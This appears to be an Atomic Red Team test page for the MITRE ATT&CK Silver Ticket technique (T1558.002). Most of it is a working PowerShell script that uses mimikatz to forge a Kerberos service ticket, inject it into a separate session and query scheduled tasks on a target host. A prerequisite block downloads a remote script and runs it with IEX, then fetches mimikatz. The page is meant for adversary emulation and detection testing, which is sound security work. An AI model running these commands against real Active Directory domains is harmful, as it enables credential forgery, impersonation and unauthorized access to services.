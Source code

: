 ```yaml
---
tags: [T1558_002, atomic_test]
filename: "[[T1558.002|T1558.002 - Steal or Forge Kerberos Tickets: Silver Ticket]]"
---
```


# T1558.002 - Steal or Forge Kerberos Tickets: Silver Ticket
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1558/002)
<blockquote>Adversaries who have the password hash of a target service account (e.g. SharePoint, MSSQL) may forge Kerberos ticket granting service (TGS) tickets, also known as silver tickets. Kerberos TGS tickets are also known as service tickets.(Citation: ADSecurity Silver Tickets)

Silver tickets are more limited in scope in than golden tickets in that they only enable adversaries to access a particular resource (e.g. MSSQL) and the system that hosts the resource; however, unlike golden tickets, adversaries with the ability to forge silver tickets are able to create TGS tickets without interacting with the Key Distribution Center (KDC), potentially making detection more difficult.(Citation: ADSecurity Detecting Forged Tickets)

Password hashes for target services may be obtained using [OS Credential Dumping](https://attack.mitre.org/techniques/T1003) or [Kerberoasting](https://attack.mitre.org/techniques/T1558/003).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Crafting Active Directory silver tickets with mimikatz](#atomic-test-1---crafting-active-directory-silver-tickets-with-mimikatz)


<br/>

## Atomic Test #1 - Crafting Active Directory silver tickets with mimikatz
Once the hash of service account is retrieved it is possible to forge Kerberos ticket granting service (TGS) tickets, also known as silver tickets.
The generated ticket is injected in a new empty Windows session and discarded after, so it does not pollute the current Windows session.

**Supported Platforms:** Windows


**auto_generated_guid:** 385e59aa-113e-4711-84d9-f637aef01f2c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain_sid | SID of the targeted domain, if you keep default it will automatically get the current domain SID | string | S-1-5-21-DEFAULT|
| domain | Targeted Active Directory domain FQDN | string | %userdnsdomain%|
| account | Account to impersonate | string | silverticketfakeuser|
| target | System you want to target (Default will be logon server) | string | %logonserver:&#92;&#92;=%|
| service_aes256_key | AES256 key (you will need to set to match your service key for your target) | string | b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9|
| mimikatz_path | Mimikatz windows executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Remove-Item $env:TEMP\silver.bat -ErrorAction Ignore
Remove-Item $env:TEMP\silver.txt -ErrorAction Ignore

# get current domain SID if default was used
$domain_sid = "#{domain_sid}"
If ($domain_sid -Match "DEFAULT") {
  # code from https://www.sevecek.com/EnglishPages/Lists/Posts/Post.aspx?ID=60
  $domain = gwmi Win32_ComputerSystem | Select -Expand Domain
  $krbtgtSID = (New-Object Security.Principal.NTAccount $domain\krbtgt).Translate([Security.Principal.SecurityIdentifier]).Value
  $domain_sid = $krbtgtSID.SubString(0, $krbtgtSID.LastIndexOf('-'))
}

# create batch file with commands to run in a separate "runas /netonly" session
# so we don't purge Kerberos ticket from the current Windows session
# its output goes to silver.txt temp file, because we cannot capture "runas /netonly" output otherwise
@"
>%TEMP%\silver.txt 2>&1 (
  echo Purge existing tickets and create silver ticket:
  klist purge
  #{mimikatz_path} "kerberos::golden /domain:#{domain} /sid:DOMAIN_SID /aes256:#{service_aes256_key} /user:#{account} /service:HOST /target:#{target}.#{domain} /ptt" "exit"

  echo.
  echo executing:schtasks /query /S #{target}.#{domain}
  schtasks /query /S #{target}.#{domain}
  
  echo.
  echo Tickets after requesting schtasks:
  klist

  echo.
  echo End of Silver Ticket attack
)
"@ -Replace "DOMAIN_SID", $domain_sid | Out-File -Encoding OEM $env:TEMP\silver.bat

# run batch file in a new empty session (password and username do not matter)
echo "foo" | runas /netonly /user:fake "$env:TEMP\silver.bat" | Out-Null

# wait until the output file has logged the entire attack
do {
  Start-Sleep 1 # wait a bit so the output file has time to be created
  Get-Content -Path "$env:TEMP\silver.txt" -Wait | ForEach-Object {
    if ($_ -match 'End of Silver Ticket attack') { break } 
  }
} while ($false) # dummy loop so that 'break' can be used

# show output from new empty session
Get-Content $env:TEMP\silver.txt

# cleanup temp files
Remove-Item $env:TEMP\silver.bat -ErrorAction Ignore
Remove-Item $env:TEMP\silver.txt -ErrorAction Ignore
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
